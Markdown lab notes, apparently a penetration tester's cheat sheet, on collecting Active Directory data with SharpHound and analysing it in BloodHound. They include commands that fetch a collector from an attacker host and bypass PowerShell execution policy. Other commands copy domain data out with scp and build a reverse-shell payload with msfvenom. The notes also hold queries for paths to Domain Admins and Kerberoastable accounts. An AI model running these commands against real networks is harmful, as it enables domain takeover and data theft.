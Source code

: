 # BloodHound
- https://bloodhound.specterops.io/get-started/quickstart/community-edition-quickstart
```bash
#### Run collector on Target   ############
powershell -ep bypass
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All 
# sharphound.exe -c all -d <domain>
scp *.zip kali@192.168.45.190:~/Documents/Boxes/    # exfil data back to KALI

sudo ./bloodhound-cli up        # Start Bloodhound
http://127.0.0.1:8080/ui/login  # Access in browser, admin : Bloodhound12!@
sudo ./bloodhound-cli containers down  # Stop Bloodhound
```

## Bloodhound Gui
- NOTE: powerview does the same stuff as bloodhound, from CLI
- Raw Query function: at the bottom of the GUI
- MATCH (m:Computer) RETURN m : display all computers
- MATCH (m:User) RETURN m     : display all users
- Mark users you have owned as owned
- Display all domain administrators by using the pre-built 
- Find all Domain Admins query under the Analysis tab.
- General useful pre-built queries
    - Find Workstations where Domain Users can RDP
    - Find Servers where Domain Users can RDP
    - Find Computers where Domain Users are Local Admin
    - Shortest Path to Domain Admins from Owned Principals
    - List all Kerberoastable Accounts pre-built query in BloodHound.

- If you find *Kerberoastable* account, grab **SPN** from account via 'node info' menu
- review active sessions
    - MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
-  build TCP reverse shell with msvenom
- `msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o reverse.exe`

## Collect Data 
```bash
curl.exe http://192.168.45.190/SharpHound.ps1 -o sharphound.ps1
iwr -uri http://192.168.45.190/SharpHound.ps1 -Outfile SharpHound.ps1

# must be run as domain user, not Local Admin

sharphound.exe -c all -d <domain>

powershell -ep bypass
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All

# once finished, locate .zip file, transfer back to kali
scp *.zip kali@192.168.45.190:~/Documents/Boxes/
```
## Inspect Data
```
# start BloodHound. 
# Once BloodHound is started, we'll upload the zip archive with the _Upload Data_ function
http://127.0.0.1:8080/
```

## Install
```bash
wget https://github.com/SpecterOps/bloodhound-cli/releases/latest/download/bloodhound-cli-linux-amd64.tar.gz
tar -xvzf bloodhound-cli-linux-amd64.tar.gz
./bloodhound-cli install

# “Docker is installed on this system, but the daemon is not running” In case you get the error message, you need to uninstall and re-install Docker.
# Simply launch Docker Desktop and proceed.
sudo systemctl start docker    
sudo /opt/bloodhound-cli install

[+] BloodHound is ready to go!
[+] You can log in as `admin` with this password: ucMBeGC75nRmTE7b2sMK4LpGHBw7jmWG
[+] You can get your admin password by running: bloodhound-cli config get default_password
[+] You can access the BloodHound UI at: http://127.0.0.1:8080/ui/login
 
Bloodhound12!@

```

